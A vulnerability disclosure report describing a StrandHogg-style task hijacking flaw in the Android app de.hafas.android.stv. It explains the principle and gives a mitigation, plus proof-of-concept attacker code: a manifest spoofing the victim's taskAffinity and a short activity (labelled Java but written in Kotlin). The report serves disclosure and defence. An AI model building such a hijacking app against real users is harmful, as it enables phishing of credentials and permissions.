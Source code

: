 # Android Manifest Misconfiguration Leading to Task Hijacking in BusBahnBim app(de.hafas.android.stv) 

## Description

Task Hijacking allows malicious apps to inherit permissions of vulnerable apps and is usually used for phishing login credentials of victims,its used by malicious actors to manipulate or take over tasks in Android, leading to significant vulnerabilities, This vulnerability applies to all Android versions before Android 11. The AndroidManifest.xml configuration needs to be modified to mitigate this attack.

## Steps To Reproduce:

1. The user downloads a malicious app
2. The user uses the malicious apps
3. The user uses the victim app. The activity seen at this time is not the original activity of the app, but the phishing activity of the malicious app
4. The user thinks that he is using the victim app (actually a malicious app) to enter personal information, resulting in account information leakage or inducing the user to grant the malicious app corresponding permissions.

## Video Proof of Concept

![caller.id.phone.number.block](./video/de.hafas.android.stv.gif)

It can be seen that after executing the malicious program, the task is successfully hijacked, and the malicious application is actually opened when the victim application is launched.

## Principle

Because the taskAffinity attribute of most applications is not set and defaults to its package name, we can set a taskAffinity value that is consistent with the package name of the application we are attacking in a hackactivity attribute of the malware. Then, when the hackactivity starts, it will create a task stack that is the same as the taskAffinity attribute of the victim application. At that time, it will share a task stack with the victim's application and be located at the root of the task stack. When we start the victim application, the victim's task will be brought to the foreground, and then the hackactivity at the root will be brought to the foreground. Then, when we open the victim application, the activity we see is not the original activity of the application, but our hackactivity. Then we can design a phishing page in the hackactivity to implement a phishing attack, obtain the user's privacy and induce the user to grant the malware corresponding permissions.





## Mitigation

To prevent this attack you will need to set taskAffinity property of the application activities to taskAffinity= "" in the <activity> tag of the AndroidManifest.xml to force the activities to use a randomly generated task affinity, or set it at the <application> tag to enforce on all activities in the application.

## Attacker App Code

### Android Manifest

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.strandhogg.v1"
    tools:ignore="ExtraText">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/AppTheme"
        android:taskAffinity="de.hafas.android.stv">
        <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

### Main Activity

```java
import android.os.Bundle
import android.content.Intent;
import androidx.appcompat.app.AppCompatActivity


class MainActivity : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        moveTaskToBack(true);
    }
    override fun onResume() {
        super.onResume()
        setContentView(R.layout.activity_main)
    }
}
```

### Impact

Due to a misconfiguration in the Android manifest file, it was possible to a perform a task hijacking attack. An attacker could create a malicious mobile application which could hijack a legitimate app and steal any potential sensitive information when installed on the victim's device.



## References

- https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06